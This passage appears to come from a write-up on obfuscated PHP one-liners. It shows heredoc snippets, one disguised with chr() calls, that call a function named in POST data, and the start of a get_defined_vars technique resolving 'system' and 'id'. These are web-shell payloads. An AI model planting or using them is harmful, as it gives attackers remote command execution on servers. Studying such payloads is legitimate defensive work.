 _NOTE: enclosing heredoc strings between parentheses seems to be mandatory, a syntax error would be raised otherwise._

### Variant with letters

Since heredoc strings perform string interpolation, the symbols can be resolved within the string:

```php
$x = <<<_
    {${$_POST[0]($_POST[1])}}
_;
```

Or:

```php
$x = <<<_
    {${${chr(95).chr(80).chr(79).chr(83).chr(84)}[0](${chr(95).chr(80).chr(79).chr(83).chr(84)}[1])}}
_;
```

## Technique #2: One-liner with only two functions

This is an extension of the fourth technique using `get_defined_vars` and `array_keys`, by chaining them in order to dynamically resolve the function name and its argument. Let's first print the result of get_defined_vars()` (no other variables declared):

```
Array
(
    [_GET] => Array
        (
        )

    [_POST] => Array
        (
            [a] => system
            [b] => id
        )

    [_COOKIE] => Array
        (
        )

    [_FILES] => Array
        (
        )
)
```

The routine `array_keys` can be used to retrieve the first level of this 2D-array:
```
Array
(
    [0] => _GET
    [1] => _POST
    [2] => _COOKIE
    [3] => _FILES
)
```
